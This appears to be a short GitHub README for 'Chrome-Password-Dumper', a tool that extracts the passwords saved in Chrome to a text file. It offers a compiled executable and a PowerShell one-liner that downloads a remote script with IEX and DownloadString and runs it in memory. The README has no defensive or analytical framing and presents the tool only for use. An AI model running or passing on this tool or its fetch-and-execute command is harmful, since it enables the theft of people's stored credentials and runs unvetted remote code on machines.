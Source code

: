 # Chrome-Password-Dumper

For Windows version simply run **chrome.exe** to dump the passwords to a text file.

For **powershell** version: 
> IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/roflsandwich/Chrome-Password-Dumper/master/chrome.ps1')

**Chrome must be closed before running the PoC**

* chrome.py uncompiled version

* compiled with py2exe

